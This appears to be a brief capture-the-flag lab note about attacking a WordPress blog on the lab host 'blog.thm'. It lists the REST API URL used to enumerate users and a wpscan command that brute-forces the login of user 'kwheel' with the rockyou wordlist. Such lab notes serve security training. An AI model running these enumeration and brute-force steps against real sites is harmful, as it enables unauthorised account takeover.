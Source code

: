 Blog CMS

# wpscan

Find Users with built in API
```txt
http://blog.thm/wp-json/wp/v2/users
```

bruteforce login
```bash
wpscan --url http://blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```


